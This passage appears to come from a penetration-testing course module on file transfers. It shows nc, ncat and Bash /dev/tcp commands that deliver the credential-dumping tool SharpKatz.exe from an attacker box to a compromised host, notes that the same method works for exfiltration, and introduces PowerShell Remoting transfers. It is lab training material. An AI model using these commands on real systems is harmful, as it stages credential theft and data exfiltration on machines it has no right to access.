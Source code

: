 Miscellaneous File Transfer Methods

```shell-session
AIceBear@htb[/htb]$ # Example using Ncat
AIceBear@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Compromised Machine Connect to Ncat to Receive the File**

Miscellaneous File Transfer Methods

```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

**NetCat - Sending File as Input to Netcat**

Miscellaneous File Transfer Methods

```shell-session
AIceBear@htb[/htb]$ # Example using Original Netcat
AIceBear@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Ncat - Sending File as Input to Netcat**

Miscellaneous File Transfer Methods

```shell-session
AIceBear@htb[/htb]$ # Example using Ncat
AIceBear@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File**

Miscellaneous File Transfer Methods

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

Note: The same operation can be used to transfer files from the compromised host to our Pwnbox.

***

### PowerShell Session File Transfer

We already talk about doing file transfers with PowerShell, but there may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to execute scripts or commands on a remote computer using PowerShell sessions. Administrators commonly use PowerShell Remoting to manage remote computers in a network, and we can also use it for file transfer operations. By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.
